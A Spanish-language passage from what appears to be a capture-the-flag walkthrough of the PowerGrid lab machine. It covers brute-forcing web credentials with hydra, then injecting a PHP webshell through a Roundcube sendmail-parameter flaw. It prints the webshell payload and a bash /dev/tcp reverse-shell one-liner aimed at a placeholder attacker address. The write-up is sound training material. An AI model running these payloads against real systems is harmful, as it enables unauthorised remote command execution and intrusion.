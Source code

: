 >Nos piden credenciales para poder acceder a la web. Podemos probar con la herramienta `hydra` para hacer Brute Forcing.

![[Pasted image 20240308193937.png]]({%link assets/img/powergrid/4.png%})

>Ahora, con las credenciales encontradas (`p48:electrico`), podemos acceder. 

![[Pasted image 20240308194034.png]]({%link assets/img/powergrid/5.png%})

>Nos muestra esta interfaz para Roundcube, que es un cliente de correo electrónico para ver los mensajes por medio de la web. Si intentamos reutilizar las credenciales anteriormente descubiertas, veremos que nos dejará entrar a este portal.

![[Pasted image 20240308194149.png]]({%link assets/img/powergrid/6.png%})

>Al parecer, tenemos un mensaje en bandeja de entrada. Es la clave SSH de uno de los atacantes encriptada con PGP. Dice que se puede desencriptar con la clave privada de PGP del usuario p48.

![[Pasted image 20240308194301.png]]({%link assets/img/powergrid/7.png%})

>Si buscamos vulnerabilidades de Roundcube, encontraremos una interesante con la herramienta `searchsploit`. La vulnerabilidad es la siguiente: https://www.exploit-db.com/exploits/40892.

>Esta vulnerabilidad deriva de que la función `mail()` de PHP llama al programa de CLI `sendmail`, y la sección del remitente en la petición HTTP puede ser modificada para que se le añadan parámetros y así crear un archivo PHP malicioso.

>Para ver esto más en detalle, intentemos hacer una petición HTTP mandando un correo para ver si podemos interceptar el mail.

![[Pasted image 20240308195526.png]]({%link assets/img/powergrid/8.png%})

![[Pasted image 20240308195425.png]]({%link assets/img/powergrid/9.png%})

>Efectivamente. La sección de \_subject y la sección de \_from son vulnerables. Podemos intentar modificarlas mandando la siguiente petición al servidor:

![[Pasted image 20240308195703.png]]({%link assets/img/powergrid/10.png%})

>El \_subject cambió a `<?php system($_GET['cmd']); ?>` y el \_from cambió a lo que nos indicaba el POC.
>Mandamos el payload y vamos al archivo creado en el servidor.

![[Pasted image 20240308195724.png]]({%link assets/img/powergrid/11.png%})

>Ahora solo falta intentar ejecutar algún comando.

![[Pasted image 20240308195901.png]]({%link assets/img/powergrid/12.png%})

>Se ve representado el stdout de nuestro comando inyectado. Ahora solo queda ganar una [[Reverse Shell]]. De nuestro lado, nos ponemos en escucha por un puerto con `nc`. En la webshell, colocamos el siguiente comando: `bash -c 'bash -i >& /dev/tcp/tuIP/tuPuerto 0>&1'`.

![[Pasted image 20240308200001.png]]({%link assets/img/powergrid/13.png%})
